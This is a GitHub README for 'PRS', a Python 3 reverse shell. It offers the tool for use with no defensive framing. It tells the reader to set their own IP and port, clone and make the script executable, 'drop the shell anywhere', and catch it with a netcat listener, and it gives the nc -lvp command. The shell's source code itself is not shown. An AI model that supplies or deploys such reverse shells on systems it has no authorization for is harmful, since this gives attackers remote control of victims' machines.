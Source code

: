 # PRS - Python reverse shell
The reverse shell for python

## Description
A reverse shell written in python 3.This payload works with netcat and only netcat. Drop the shell any where while having netcat listing.

## Instructions
Be sure to change the following:
```
 host = "Your ip"  # Put your machines IP here 
 port = 4444       # You can change the port if you would like, this is just a defult one
 ```
 ## Installation
 ```
 git clone https://github.com/hackerman234/PRS.git
 chmod +x reverse_shell.py
 ```
 ## Netcat
 Heres a guide how to use netcat
 ```
 nc -lvp <the port you want to listen on>
 ```
 
 ## Authors
 @hackerman234
